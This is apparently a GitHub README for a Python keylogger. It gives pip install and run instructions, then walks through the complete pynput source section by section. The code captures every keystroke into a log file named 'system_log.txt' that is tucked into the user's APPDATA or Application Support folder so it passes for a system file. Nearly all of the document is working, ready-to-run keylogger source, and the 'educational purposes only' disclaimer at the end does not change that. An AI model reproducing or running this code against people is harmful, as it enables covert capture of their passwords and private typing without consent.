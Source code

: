 # Keylogger.py

## Overview

This Python script is a simple keylogger that captures and logs keyboard events to a file. It uses the `pynput` library to listen for keyboard events and records them into a log file. The script is designed to work on both Windows and macOS operating systems.

## Features

- Logs key presses and releases.
- Records special keys (e.g., space, enter) by their names.
- Stores the log file in an appropriate directory based on the operating system.
- Stops logging when the Escape key is pressed.

## Requirements

- Python 3.x
- `pynput` library

## Installation

1. Install Python 3 from [python.org](https://www.python.org/downloads/).
2. Install the `pynput` library using pip:
    ```sh
    pip install pynput
    ```

## Usage

1. Save the script as `keylogger.py`.
2. Run the script:
    ```sh
    python keylogger.py
    ```

## Code Explanation

### Importing Libraries

```python
import os
import platform
from pynput import keyboard
```

- `os`: Provides functions to interact with the operating system.
- `platform`: Used to determine the operating system type.
- `pynput.keyboard`: Provides classes and functions to monitor and control keyboard events.

### Getting the Log File Path

```python
def get_log_file_path():
    """Determine the path to the log file based on the operating system."""
    if platform.system() == 'Windows':
        appdata_dir = os.getenv('APPDATA')
        log_file = os.path.join(appdata_dir, 'system_log.txt')
    else:
        app_support_dir = os.path.expanduser('~/Library/Application Support')
        log_file = os.path.join(app_support_dir, 'system_log.txt')
    return log_file

log_file = get_log_file_path()
os.makedirs(os.path.dirname(log_file), exist_ok=True)
```

- Determines the appropriate log file path based on the operating system.
- On Windows, the log file is stored in the `%APPDATA%` directory.
- On macOS, the log file is stored in the `~/Library/Application Support` directory.
- Ensures the directory for the log file exists.

### Handling Key Press Events

```python
def on_press(key):
    """Callback function to handle key press events."""
    try:
        with open(log_file, 'a') as f:
            f.write(f'{key.char}')
    except AttributeError:
        with open(log_file, 'a') as f:
            f.write(f'[{key}]')
```

- Logs the character of the key pressed.
- If the key is a special key (e.g., space, enter), it logs the name of the key.

### Handling Key Release Events

```python
def on_release(key):
    """Callback function to handle key release events."""
    if key == keyboard.Key.esc:
        return False
```

- Stops the keylogger when the Escape key is released.

### Starting the Keylogger

```python
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

- Starts the keyboard event listener.
- Joins the listener to the main thread to keep it running.

## Disclaimer

This keylogger is for educational purposes only. Unauthorized use of a keylogger to capture keystrokes without the user's consent is illegal and unethical. Use this script responsibly and only on systems where you have explicit permission to do so.
